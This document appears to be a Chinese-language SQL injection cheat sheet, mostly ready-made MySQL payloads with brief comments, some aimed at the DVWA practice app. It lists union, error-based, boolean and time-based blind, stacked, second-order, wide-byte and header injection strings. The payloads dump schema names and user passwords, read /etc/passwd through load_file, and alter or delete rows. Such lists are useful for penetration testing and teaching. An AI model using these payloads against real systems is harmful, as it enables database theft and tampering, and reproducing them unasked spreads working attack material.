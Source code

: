 ## 联合注入：
```sql
select user,password from users where user_id=1 union select 1,2;
select * from users where user_id = 1 union select * from users where user_id = 2 ;
```
字符型注入dvwa
```sql
1' or '1234'=1234
1' or 'abcd' = 'abcd'
1' or 1=1 order by 1 //猜测字段
select * from users order by password ;
1' or 1=1 order by 2 #
1' or 1=1 order by 3 #
1' union select 1,database() #
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() //获取数据库中的表
select group_concat(user) from users where user_id=1 or user_id=2;
1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' //获取表字段名
1' or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users
{
id=-1 union select 1,2,3,database(),5,6,7,8
(select table_name from information_schema.tables where table_schema='dvwa' limit 1,1),5,6,7,8
(select column_name from information_schema.columns where table_schema='dvwa'  and table_name='users' limit 4,1)
(select password from dvwa.users limit 0,1),(select user from dvwa.users limit 0,1)
}
```

##报错注入：

floor函数
```sql
1' and (select 1 from (select count(*),concat(database(),floor(rand(0)*2))x from information_schema.tables group by x)a) --+
select count(*) from information_schema.tables group by concat(version(),floor(rand(0)*2))
and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,schema_name,0x7e) FROM information_schema.schemata LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)  //爆数据库
and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,table_name,0x7e) FROM information_schema.tables where table_schema=database() LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) //爆表
and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,column_name,0x7e) FROM information_schema.columns where table_name=表名 LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)  //爆字段
and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x23,user_id,0x3a,password,0x23) FROM user limit 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)  //爆内容
```

UPDATEXML函数
```sql
1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+
(0x7e,(select table_name from information_schema.tables where table_schema='dvwa' limit 1,1),0x7e)
' and (extractvalue(1,concat(0x7e,(select user()),0x7e))) --+
```

几何函数报错
```sql
1' and geometrycollection((select * from(select * from(select user())a)b));
1' and multipoint((select * from(select * from(select user())a)b));
1' and polygon((select * from(select * from(select user())a)b));
1' and multipolygon((select * from(select * from(select user())a)b));
1' and linestring((select * from(select * from(select user())a)b));
1' and multilinestring((select * from(select * from(select user())a)b));
```

exp
```sql
1' and exp(~(select * from(select user())a));
select ~0 //将0取反，函数成功执行后返回0的缘故，我们将成功执行的函数取反就会得到最大的无符号BIGINT值。
MySql5.5.5版本后整形溢出才会报错
得到表名：
select exp(~(select*from(select table_name from information_schema.tables where table_schema=database() limit 0,1)x));
得到列名：
select exp(~(select*from(select column_name from information_schema.columns where table_name='users' limit 0,1)x));
检索数据：
select exp(~ (select*from(select concat_ws(':',id, username, password) from users limit 0,1)x));
insert into users (id, username, password) values (2, '' or !(select*from(select user())x)-~0 or '', 'Eyre');
select exp(~(select*from(select load_file('/etc/passwd'))a));读取本地文件
insert into users (id, username, password) values (2, '' or !(select*from(select(concat(@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,column_name)),@)))x)-~0 or '', 'Eyre');

update users set password='Peter' or !(select*from(select user())x)-~0 or '' where id=4;

delete from users where id='1' or !(select*from(select user())x)-~0 or '';
```

Extractvalue
```sql
?id=1 AND extractvalue(rand(),concat(CHAR(126),version(),CHAR(126)))--
?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT data_offset,1)))--
?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),TABLE_NAME,CHAR(126)) FROM information_schema.TABLES WHERE table_schema=data_column LIMIT data_offset,1)))--
?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME=data_table LIMIT data_offset,1)))--
?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),data_info,CHAR(126)) FROM data_table.data_column LIMIT data_offset,1)))--
```

NAME_CONST
```sql
?id=1 AND (SELECT * FROM (SELECT NAME_CONST(version(),1),NAME_CONST(version(),1)) as x)--
?id=1 AND (SELECT * FROM (SELECT NAME_CONST(user(),1),NAME_CONST(user(),1)) as x)--
?id=1 AND (SELECT * FROM (SELECT NAME_CONST(database(),1),NAME_CONST(database(),1)) as x)--
```

## 盲注：
布尔
```sql
1' and left(database(),4)='dvwa' --+
1' and mid(database(),1,1)='d' --+
1' and ascii(mid(database(),1,1))='100'--+
1' and length(database())>=5--+判断库名长度
1' and substr(database(),1,1)='d'--+ 截取库名第一个字符
1 and 1=(if((user() regexp '^r'),1,0)) --+
1 and 1=(user() like 'r%25') --+
```

## 延迟注入：

SLEEP函数
```sql
1' and if(length(database())>=4,sleep(5),1)--+
1' and if(ascii(mid(database(),1,1))='100',sleep(5),1)--+
1 and (select sleep(10) from dual where database() like '%')#
1 and (select sleep(10) from dual where database() like '___')#
1 and (select sleep(10) from dual where database() like '_____')#
1 and (select sleep(10) from dual where database() like 'a____')#
1 and (select sleep(10) from dual where database() like 's____')#
1 and (select sleep(10) from dual where database() like 'sa___')#
1 and (select sleep(10) from dual where database() like 'swa__')#
1 and (select sleep(10) from dual where database() like 'swb__')#
1 and (select sleep(10) from dual where database() like 'swi__')#
1 and (select sleep(10) from dual where (select table_name from information_schema.columns where table_schema=database() and column_name like '%pass%' limit 0,1) like '%')#

BENCHMARK
```sql
Select * from users where user_id= 1 and (if(ascii(substr(database(),1,1))=100,benchmark(100000000,sha(1)), null));
```

笛卡尔积
```sql
将两个大表做乘积。现在，我们有两个集合A和B。
A = {0,1}     B = {2,3,4}
集合 A×B 和 B×A的结果集就可以分别表示为以下这种形式：
A×B = {（0，2），（1，2），（0，3），（1，3），（0，4），（1，4）}；
B×A = {（2，0），（2，1），（3，0），（3，1），（4，0），（4，1）}；
数据库表连接数据行匹配时所遵循的算法就是以上提到的笛卡尔积，表与表之间的连接可以看成是在做乘法运算
select * from guestbook join users
```

Get_lock
```sql
Select GET_LOCK('snowwolf',10)
```

Rlike
```sql
select concat (rpad (1,999999,a),rpad (1,999999,a),rpad(1,999999,a) ,rpad(1,999999,a)
,rpad(1,999999,a),rpad(1,999999,a),rpad(1,999999,a)
,rpad(1,999999,a),rpad(1,999999,a),rpad(1,999999,a),rpad(1,999999,a),rpad(1,999999,a),rp
ad(1,999999,a) ,rpad (1,999999,a),rpad(1,999999,a),rpad(1,999999,a )) RLIKE '(a.*)+(a.*)+
(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b';
```

## 堆叠查询：
```sql
;select
```

## 二阶注入：

注册或更新个人资料如下
```sql
I love programming', email=(SELECT email FROM users WHERE username='admin') --
```
当执行SQL语句时，会发生以下情况：
```bash
末尾的注释--可确保原始 SQL 查询的其余部分被注释掉
子查询(SELECT email FROM users WHERE username='admin'）将执行用管理员用户的电子邮件替换该列
```

## 宽字节注入：
```sql
%bf%27
%df%5c
%A8%27
```

## HTTP请求头注入：
```sql
User-Agent
Cookie
Referer
X-Forward-For
```
